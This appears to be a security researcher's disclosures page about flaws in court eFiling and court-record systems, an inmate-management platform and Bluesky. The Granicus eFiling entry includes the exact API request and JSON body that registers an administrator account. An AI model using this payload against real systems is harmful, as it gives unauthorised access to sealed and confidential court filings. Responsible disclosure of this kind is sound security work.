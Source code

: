 # Disclosures

## Timeline

### [TBD](#tbd)

**2024-03-06**

### [Granicus eFiling](#granicus-efiling)

**2024-03-02**

Vulnerabilities in the eFiling platform from [Granicus](https://granicus.com/) allowed attackers to register accounts in any organization of their choosing, including the organization that granted administrator privileges. Administrators have carte blanche access to all filings in all cases. Additionally, an organization owner could force any user into their own organization, which allowed the organization owner to effectively revoke privileges of administrators or other organization owners.

Granicus's eFiling platform is used statewide in [Florida](https://www.myflcourtaccess.com/default.aspx) and [Arizona](https://efile.azcourts.gov/).

Administrator accounts could be registered by sending a POST to `/api/Security/RegisterUser` with the following JSON.

```JSON
{
  "User":{
    "OrganizationId":"0","IsAdministrator":true,"UserTypeCode":"10",
    "IdType":-1,"IdTypeSpecified":false,"IdState":"-1","IdNumber":"",
    "LogonName":"<username>","LogonPassword":"<password>",
    "FirstName":"Example","MiddleName":"","LastName":"User","Suffix":"",
    "PrimaryEmailAddress":"fake@example.com","AlternateEmailAddress1":"","AlternateEmailAddress2":"",
    "Address1":"123 Fake St","Address2":"","City":"Beverly Hills","State":"CA","ZipCode":"90210",
    "Country":"US","CountryCode":"US","PhoneNumber":"","PhoneExtension":""
  },"ForceToPendingApproval":false,"ForceCreateUser":false
}
```

_Note: Shortly after receiving my report, Granicus evidently leaked my information to the Arizona Supreme Court. For the next two months, Granicus and the Arizona Supreme Court cyberstalked me; my LinkedIn profile was viewed repeatedly, sometimes multiple times per day, by several employees from each company._

### [Disorder in the Court](https://github.com/qwell/disorder-in-the-court)

**2023-11-30**

Insufficient permission check vulnerabilities in public court record platforms from multiple vendors allowed unauthorized public access to sealed, confidential, unredacted, and/or otherwise restricted case documents. Affected documents include witness lists and testimony, mental health evaluations, child custody agreements, detailed allegations of abuse, corporate trade secrets, jury forms, and much more.

- [All Vendors (Combined)](https://github.com/qwell/disorder-in-the-court/blob/main/README.md)
- [Catalis -- CMS360](https://github.com/qwell/disorder-in-the-court/blob/main/README-Catalis.md)
- [Henschen & Associates -- CaseLook](https://github.com/qwell/disorder-in-the-court/blob/main/README-Henschen%26Associates.md)
- [Tyler Technologies -- Court Case Management Plus](https://github.com/qwell/disorder-in-the-court/blob/main/README-TylerTechnologies.md)
- [Florida](https://github.com/qwell/disorder-in-the-court/blob/main/README-Florida.md)
  - Brevard County
  - Hillsborough County
  - Lee County
  - Monroe County
  - Sarasota County

### [BluHorse Inmate Management](https://ꩰ.com/@north/111365131136729011)

**2023-11-06**

- Leaked personal data of inmates and officers.

### [Bluesky Social Network](https://github.com/qwell/bsky-exploits)

**2023-09-13**

- Abitrary text descriptions and thumbnails in link cards.
- Disguised links in post text.

## Contact

[Jason Parker](https://linktr.ee/northantara)

- Email: [north@ꩰ.com](mailto:north@ꩰ.com)
- Press: [press@jeltz.org](mailto:press@jeltz.org)
- Mastodon: [@north@ꩰ.com](https://ꩰ.com/@north)

## Sponsorship

- If you enjoy my work, consider becoming a sponsor on [Patreon](https://patreon.com/northantara) or [GitHub](https://github.com/sponsors/qwell/), and/or consider donating to the [Electronic Frontier Foundation](https://eff.org/donate) or [St. Jude](https://www.stjude.org/donate). Several hundred hours of unpaid labor have been put into researching and disclosing these vulnerabilities; no vendors have provided or offered any bounties.
